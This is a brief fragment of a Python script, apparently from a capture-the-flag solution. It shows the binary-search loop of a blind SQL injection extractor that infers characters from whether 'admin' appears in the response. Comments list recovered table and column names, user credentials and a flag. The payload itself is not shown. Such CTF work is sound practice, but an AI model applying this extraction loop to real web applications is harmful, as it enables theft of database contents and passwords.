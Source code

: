 ```python
        # print(response.text)
        # print(payload)
        if "admin" in response.text:
            left = mid + 1
        else:
            right = mid
        mid = int((right + left) >> 1)

    result += chr(mid)
    print(result)

    # ctf
    # users
    # name,number,password,USER
    # admin123456,JennyAre you sure,DennyHECTF{Jia_You_Weber}
```





